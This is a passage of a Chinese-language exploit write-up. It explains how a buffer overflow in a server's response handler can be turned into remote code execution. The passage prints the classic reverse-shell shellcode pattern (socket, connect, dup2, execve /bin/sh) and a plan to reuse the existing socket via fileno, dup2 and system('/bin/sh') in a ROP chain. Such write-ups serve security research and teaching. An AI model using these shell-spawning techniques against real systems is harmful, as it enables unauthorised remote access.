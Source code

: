 通过 telnetd  
 实现的简单漏洞利用及Shell获取。  
## 更进一步  
  
让我们回顾一下，由于缓冲区溢出而能够转移控制流的代码部分。可以看到，在返回语句之前，有两个 fwrite  
 调用，用于将响应写入到发送原始请求的客户端连接的 socket_stream  
 中。  
```
    write_response_header(socket_stream,0x68);
    fwrite("<html><head><title>404 File Not Found</title></head>\\n",1,0x35,socket_stream);
    fwrite("<body>The requested URL was not found on this server</body></html>\\n",1,0x43,socket_stream);
    return 0;

```  
  
这让我产生了以下两个假设：  
1. 1. 触发ROP链时，连接尚未关闭。  
  
1. 2. socket_stream  
 的引用很可能仍保存在某个寄存器中。  
  
这让我想起了CTF竞赛中的一些挑战，其中存在漏洞的二进制文件通过 socat  
 等工具在套接字上公开。在这些情况下，构造Shellcode以实现RCE的常见方法如下：  
```
fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); // 创建套接字
connect(fd, (struct sockaddr *) &serv_addr, 16); // 连接
dup2(fd, 0); // 将套接字文件描述符复制到标准输入（STDIN）
dup2(fd, 1); // 将套接字文件描述符复制到标准输出（STDOUT）
dup2(fd, 2); // 将套接字文件描述符复制到标准错误（STDERR）
execve("/bin/sh", 0, 0); // 执行 /bin/sh

```  
  
socket()  
 函数使用指定的域、类型和协议创建一个新的套接字。connect()  
 函数则用于建立与目标地址的连接。连接建立后，dup2()  
 函数被调用三次，将套接字文件描述符重定向到标准输入、标准输出和标准错误，有效地将Shell的输入输出绑定到该套接字上。最后，execve()  
 函数执行 /bin/sh  
，生成一个通过已建立连接进行通信的Shell。  
  
在上述情况下，我已经完成了这个策略的一半。我已经有了一个套接字/连接，所以剩下要做的就是调用 dup2  
 函数，并调用 system  
 函数，对吧？这样我就可以将已经建立的连接重新用作Shell。  
  
不过，由于我拥有的是 FILE *stream  
，而 dup2  
 需要一个整数类型的文件描述符，所以还需要额外的一步——调用 fileno()  
 函数来获取相应的文件描述符。因此，这个计划大致如下：  
```
fd = fileno(stream)
dup2(fd, 0)
dup2(fd, 1)
dup2(fd, 2)
system("/bin/sh")

```  
  